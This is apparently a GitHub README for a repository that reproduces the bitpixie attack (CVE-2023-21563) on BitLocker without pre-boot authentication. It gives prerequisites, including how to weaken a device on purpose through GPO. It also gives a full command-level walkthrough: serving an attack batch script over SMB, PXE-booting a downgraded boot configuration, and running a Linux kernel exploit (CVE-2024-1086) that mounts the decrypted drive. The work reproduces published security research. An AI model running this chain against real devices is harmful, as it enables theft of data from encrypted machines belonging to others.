 # Bitpixie

The [bitpixie vulnerability](https://github.com/Wack0/bitlocker-attacks?tab=readme-ov-file#bitpixie)
existed since October 2005, was discovered in August 2022 and publicly [disclosed in February 2023 by
Rairii](https://mastodon.social/@Rairii@haqueers.com/109817927808486332) after which it was assigned
[CVE-2023-21563](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-21563).

The full attack chain was demonstrated by Thomas in his [38C3 talk](https://events.ccc.de/congress/2024/hub/en/event/windows-bitlocker-screwed-without-a-screwdriver/)
which was followed up by two blog posts:

- [Windows BitLocker -- Screwed without a Screwdriver](https://neodyme.io/en/blog/bitlocker_screwed_without_a_screwdriver/)
- [On Secure Boot, TPMs, SBAT, and downgrades -- Why Microsoft hasn't fixed BitLocker yet](https://neodyme.io/en/blog/bitlocker_why_no_fix/)

This repository reproduces the original research performed by Thomas based on his talk and blog posts.
The used Linux kernel exploit ([blog](https://pwning.tech/nftables/),
[PoC](https://github.com/Notselwyn/CVE-2024-1086])) for CVE-2024-1086 was 
written by [@notselwyn](https://twitter.com/notselwyn).

Parallel to this work [Andreas Grasser](https://github.com/andigandhi/bitpixie) also 
attempted to reproduce the original research, ending up with a very similar approach.

## Prerequisites

BitLocker must be configured without pre-boot authentication also sometimes referred 
to as unattended/transparent mode i.e. without a PIN or a key file.

Booting in PXE mode must be possible. In particular, the UEFI firmware must have a working TCP/IP stack. If only the network boot option is disabled, some USB dongles might work around that limitation.

If you have access to the Windows environment, launch an elevated instance of `msinfo32` the entry *Automatic Device Encryption Support* should read *Meets prerequisites*.

A TPM 2.0 is needed to support the PCR7 binding
- In Windows open *Device Manager > Security Devices* and check the TPM properties
- Check in the UEFI settings, something like: *Security > Security Chip > Security Chip Selection*.
	
>[!warning]
> Changing the TPM mode will clear the stored keys, therefore:
> 1. Boot Windows, disable BitLocker: `manage-bde -protectors -disable C:`
> 2. Boot into UEFI/BIOS, enable the TPMv2.0 security chip
> 3. Boot Windows, re-enable BitLocker `manage-bde -protectors -enable C:`

Secure Boot needs to be enabled and used for integrity validation. The command below, must list exactly the PCRs `7, 11`:
```
PS> manage-bde -protectors -get c:
...
      PCR Validation Profile:
        7, 11
        (Uses Secure Boot for integrity validation)
```

> [!warning]
> If the PCR register `4` is included, this attack will not work.

>[!note]
> To make a device intentionally vulnerable a local GPO can be configured:
> 1. Temporarily suspend BitLcoker protection: `manage-bde -protectors -disable C:`
> 2. Create a GPO using `gpedit.msc`
> 	- Open *Computer Configuration > Administrative Templates > Windows Components > BitLocker Drive Encryption > Operating System Drives*
> 	- Enable *Configure TPM startup PIN and PCRs* and enter the *PCR values:* `7, 11`
> 3. Apply the GPO: `gpupdate /force`
> 4. Confirm settings: `gpresult /scope coputer /h gpo.html`
> 5. Re-enable BitLocker: `manage-bde -protectors -enable c:`
 
[KB5025885](https://support.microsoft.com/en-us/topic/kb5025885-how-to-manage-the-windows-boot-manager-revocations-for-secure-boot-changes-associated-with-cve-2023-24932-41a975df-beb2-40c1-99a3-b3ff139f832d#bkmk_mitigation_guidelines) must not be installed.

Only systems using a bootloader signed with the 2011 Secure Boot certificate are vulnerable. To check this, mount the boot partition and check the signature of `EFI\Microsoft\Boot\bootmgfw.efi`. This can also be performed using [osslsigncode](https://github.com/mtrojnar/osslsigncode).

For the Linux based exploitation strategy implemented in this repository, Microsoft's 3rd-party Secure Boot certificate, used to sign the shim loader, needs to be enabled.

## Environment Setup

### Linux Initramfs Generation

An initramfs containing all needed components based on a stripped down version of [frood, an Alpine initramfs NAS](https://words.filippo.io/dispatches/frood/) can be generated with:
```
cd linux
./bitpixie build
./bitpixie qemu # optional sanity check, whether it boots at all
./bitpixie deploy
cd - 
```

### SMB Server

Start a SMB server from where the `create-bcd-linux.bat` attack script can be downloaded from and the resulting, device-specific BCD can be uploaded to. Impacket's `smbserver.py` works great for that:

```
cd pxe && ./start-smb.sh
```

### PXE Server

Download the necessary artifacts needed and start the PXE server:
```
cd pxe
./download.sh
./start-pxe.sh eth0
```

## Attack

### Boot into Recovery Mode

Let Windows boot normally, on the logon screen hold down the *Shift* key and select the *Restart* option from the power menu.

Windows will reboot into a recovery mode. Select *Troubleshoot > Advanced Option > Command line*. If desired, select *Change keyboard layout*. When prompted for BitLocker recovery key, select *Skip this drive*.

You should now be in a command prompt within the recovery environment.

If needed, enable network support:
```
wpeutil initializenetwork
```

>[!note]
> You should see DHCP request served by `dnsmasq`.

Mount the exposed SMB share:
```
net use S: \\10.13.37.100\smb
```

Make sure you are in local temp directory:
```
cd %TEMP%
```

Copy attack script to temporary directory:
```
copy S:\create-bcd-linux.bat .
```

Execute attacker script to generate a modified BCD file:
```
.\create-bcd-linux.bat
```

Transfer the modified boot configuration to the SMB share:
```
copy BCD_linux S:\BCD
```

> [!note]
> This file needs to be served as `Boot\BCD` via PXE.

Exit the command line and chose *Use a device* then select the option indicating PXE boot.

### Boot into Linux Environment

The device should now reboot over PXE, fail to fully load the Windows boot configuration then fall back to the served Linux environment.

>[!note]
> If you end up on a blank blue screen it might help to press *Escape* to show the Grub boot menu where you can select the Linux system.
> 
> This typically means something did not work as expected.

Login with the `root` user, no password is needed. Follow the instructions printed in the logon message.
Replace `XYZ` with device file representing your encrypted BitLocker volume:
```
exploit && ./mount.sh /dev/XYZ && ls mnt
```

## Success Stories

Windows 11 devices which were successfully exploited, after manually enabling the TCP stack in the UEFI settings:

- Lenovo ThinkPad T460s 20FAA01100
- Lenovo ThinkPad X280 20KES6C42B
